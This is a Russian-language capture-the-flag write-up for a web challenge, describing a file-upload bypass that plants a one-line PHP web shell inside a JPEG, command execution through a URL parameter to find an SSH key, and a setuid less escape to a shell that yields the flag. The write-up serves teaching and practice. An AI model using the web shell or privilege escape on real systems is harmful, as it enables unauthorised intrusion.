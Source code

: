 # Web 300 / Доступ к секретам доктора Дума

> Нам удалось обнаружить, что доктор Дум запустил вторую версию секретного хранилища. Попробуйте понять, что он скрывает.

## Часть 1

Заходим на [http://zombie.breakingbrain.org:8082/](http://zombie.breakingbrain.org:8082/).

Проверяем куки, location storage, robots.txt и тд. Пусто.

Смотрим исходный код страницы и видим:

```html
<!-- upload to /uploads dir -->
<form enctype="multipart/form-data" action="/upload" method="post">
  <input name="file" type="file" />
  <button>Upload</button>
</form>
```

Файлы сохраняются в папку `uploads`. Окей, идём дальше.

Изучаем сервис. Выбираем JPG картинку и жмём **Upload**:

> File uploaded successfully: image.jpg

Переходим по адресу [`http://zombie.breakingbrain.org:8082/uploads/image.jpg`](http://zombie.breakingbrain.org:8082/uploads/image.jpg) и получаем `403 Forbidden`. Хм.

Попробуем залить картинку, но с другим расширением. Переименовываем файл `image.jpg` в `image.php` и заливаем ещё раз:

> File uploaded successfully: image.php

Значит, проверка по MIME, а не по расширению файла.

Переходим по адресу [`http://zombie.breakingbrain.org:8082/uploads/image.php`](http://zombie.breakingbrain.org:8082/uploads/image.php) и видим кракозябры, а не `403 Forbidden`. Возможно, Remote File Inclusion.

С помощью [https://github.com/dlegs/php-jpeg-injector](https://github.com/dlegs/php-jpeg-injector) внедряем в картинку следующий PHP код:

```php
<?php system($_GET["cmd"]); ?
```

Заливаем картинку с внедренным PHP, переходим по адресу `http://zombie.breakingbrain.org:8082/uploads/image.php?cmd=ls -la ../../` и среди кракозябр видим:

```bash
total 24
drwxrwxr-x 3 1001 1001 4096 Nov 29 10:55 .
drwxr-xr-x 3 root root 4096 Nov 29 10:53 ..
-rw-rw-r-- 1 1001 1001    8 Nov 29 10:55 flag.txt
-rw-rw-r-- 1 1001 1001 2602 Nov 29 10:55 id_rsa
drwxrwxr-x 4 1001 1001 4096 Nov 29 11:27 src
-rw-rw-r-- 1 1001 1001   75 Nov 29 10:55 ssh_data
```

Читаем `flat.txt` командой `cat ../../flag.txt`:

```bash
Not here
```

Окей, видим файлы `id_rsa` и `ssh_data`. В первом RSA ключ, во втором информация для подключения по SSH:

```bash
Don't forget about it:
ssh user@zombie.breakingbrain.org -p 61322 -i id_rsa
```

## Часть 2

Подключаемся по SSH, видим два файла `read` и `read_me`:

```bash
$ ls
read  read_me
```

Пытаемся прочитать `read_me`:

```bash
$ cat read_me
cat: read_me: Permission denied
```

Прав на чтении нет, т.к. владельцем является пользователь `flag`, а мы под `user`:

```bash
$ ls -l
total 24
-rwsr-sr-x 1 flag flag 16720 Nov 29 10:21 read
-rw------- 1 flag flag    30 Nov 29 10:19 read_me

$ id
uid=1337(user) gid=1337(user) groups=1337(user)
```

Файл `read` с правами на выполнение, запускаем:

```bash
$ ./read
you must become `flag` user :)
/home/user/read_me (END)
```

Похоже на результат команды `less`.

В третьей подсказке сказано, что нужно использовать gtfobins.

Ищем там команду `less` и видим, что из `less` можно перейти напрямую в shell командой `!/bin/sh`.

Попадаем в shell, находим флаг:

```bash
$ cat /home/flag/flag
ITF{YoU_ARE_v3ry_GO0D}
```

Флаг наш.

Гифка по второй части, чтобы было понятнее:

![assets/part-2.gif](assets/part-2.gif)
